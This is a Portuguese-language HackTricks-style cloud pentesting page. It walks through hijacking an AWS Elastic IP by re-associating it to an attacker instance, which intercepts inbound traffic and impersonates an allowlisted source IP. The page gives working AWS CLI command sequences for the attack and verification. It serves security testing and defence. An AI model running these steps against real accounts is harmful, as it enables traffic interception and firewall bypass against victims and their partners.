 # AWS - Elastic IP Hijack para Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Resumo

Abuse `ec2:AssociateAddress` (e opcionalmente `ec2:DisassociateAddress`) para re-associar um Elastic IP (EIP) de uma instância/ENI vítima para uma instância/ENI do atacante. Isso redireciona o tráfego de entrada destinado ao EIP para o atacante e também permite que o atacante origine tráfego de saída com o IP público allowlisted para contornar firewalls de parceiros externos.

## Pré-requisitos
- ID de alocação do EIP de destino na mesma conta/VPC.
- Instância/ENI do atacante que você controla.
- Permissões:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
- `ec2:DisassociateAddress` (opcional). Nota: `--allow-reassociation` irá auto-desassociar da associação anterior.

## Ataque

Variáveis
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Alocar ou identificar o EIP da vítima (o laboratório aloca um novo e o associa à vítima)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Verifique se o EIP atualmente resolve para o serviço da vítima (por exemplo, verifique o banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Re-associar o EIP ao atacante (desassocia automaticamente da vítima)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Verifique se o EIP agora resolve para o attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Evidência (associação movida):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impacto
- Inbound impersonation: Todo o tráfego destinado ao EIP sequestrado é entregue à attacker instance/ENI.
- Outbound impersonation: Attacker pode iniciar tráfego que aparenta se originar do allowlisted public IP (útil para contornar filtros de IP de parceiros/fonte externa).

{{#include ../../../../banners/hacktricks-training.md}}
